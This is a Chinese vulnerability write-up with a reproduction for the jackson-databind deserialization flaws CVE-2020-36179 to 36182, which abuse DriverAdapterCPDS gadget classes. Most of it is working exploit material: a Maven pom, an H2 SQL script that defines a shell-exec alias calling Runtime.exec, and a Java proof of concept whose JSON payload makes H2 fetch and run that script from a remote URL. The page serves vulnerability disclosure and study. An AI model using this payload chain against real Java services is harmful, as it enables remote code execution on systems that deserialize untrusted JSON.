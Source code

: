 # 

# Jackson-databind SSRF&RCE CVE-2020-36179~36182

## 漏洞描述

漏洞类型：JDNI注入导致RCE

利用条件：

- 开启enableDefaultTyping()
- 使用了org.apache.servicemix.bundles第三方依赖库

以下类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成SSRF&RCE：

- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180:  org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181:  org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182:  org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS

参考链接：

- https://github.com/Al1ex/CVE-2020-36179

## 漏洞影响

```
Jackson-databind < 2.9.10.7
```

## 漏洞复现

pom.xml：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

![](images/20221206110853.jpg)

Gadget：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```


